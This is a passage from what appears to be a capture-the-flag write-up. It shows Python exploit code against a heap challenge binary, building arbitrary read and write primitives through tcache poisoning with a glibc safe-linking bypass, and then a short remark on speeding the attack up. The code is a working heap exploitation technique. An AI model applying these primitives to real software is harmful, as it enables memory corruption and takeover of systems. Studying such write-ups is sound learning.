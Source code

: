 ```python
		cur_suf = cur & ((1 << i) - 1)
		val_pref = (val >> (64 - i)) & ((1 << i) - 1)
		if (cur_suf == val_pref):
			print("suf:", i)
			return i
	print("suf:", 0)
	return 0

# use upgrade_sheep() to construct an arbitrary value into the 'wps' field of a sheep at index 'idx'
def bitwise_build(idx, value, buffer=False):
	if buffer:
		prefix_size = 0
	else:
		current = view(idx)[0]	# if acting unbuffered, we can view the current value at 'idx' and not re-write unnecessary bits
		prefix_size = shared_suffix_prefix(current, value)
	for i in range(63 - prefix_size, -1, -1):
		if ((value >> i) & 1):
			# print("i =", i, " --> *2+1")
			upgrade(idx, 2, buffer=buffer)
			upgrade(idx, 1, buffer=buffer)
		else:
			# print("i =", i, " --> *2")
			upgrade(idx, 2, buffer=buffer)

# arbitrary write primitive
def arb_write(addr, value, buffer=False):
	sell(ARB_RW_SHEEP_IDX, buffer=buffer)	# create a new free'd tcache chunk and write its address at the head of 0x20 tcache
	bitwise_build(TCACHE_IDX, addr ^ (heap_base >> 12), buffer=buffer)	# write 'addr' (with heap PROTECT_PTR) into fd of the free chunk
	buy(0, buffer=buffer)	# allocated the chunk again to get 'addr' into the head of tcache
	bitwise_build(TCACHE_IDX, value, buffer=buffer)	# write 'value' into the sheep->wps of the sheep whose address is at the tcache head (i.e. the sheep with address 'addr')

# arb read primitive; similar implementation to arb_write
def arb_read(addr):
	sell(ARB_RW_SHEEP_IDX)	# free a tcache chunk into the head of tcache
	bitwise_build(TCACHE_IDX, addr ^ (heap_base >> 12))	# write 'addr' into the fd of the freed chunk
	buy(0)	# allocate the chunk again to get 'addr' into the head of tcache
	return view(TCACHE_IDX)	# view the wps of the sheep at address 'addr'
```

However, because we're building the arbitrary values bit-by-bit, it takes quite a long time on the remote. I added the `shared_suffix_prefix` as a small optimization to this, and then I used input buffering at some point later to speed up the process (more on that later).

### 3. Libc and binary base leaks
